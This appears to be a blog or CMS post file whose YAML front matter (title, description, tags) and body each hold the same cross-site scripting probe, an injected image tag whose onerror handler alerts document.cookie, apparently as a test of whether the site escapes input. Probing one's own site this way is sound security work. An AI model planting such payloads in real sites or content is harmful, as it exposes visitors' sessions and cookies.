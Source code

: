 ```yaml
---
title: '"><img src=x onerror=alert(document.cookie)>'
date: 2025-08-07T06:02:00.000+03:00
description: '"><img src=x onerror=alert(document.cookie)>'
thumbnail: /uploads/wallpaperflare.com_wallpaper.jpg
tags:
  - '"><img src=x onerror=alert(document.cookie)>'
---
```

"><img src=x onerror=alert(document.cookie)>
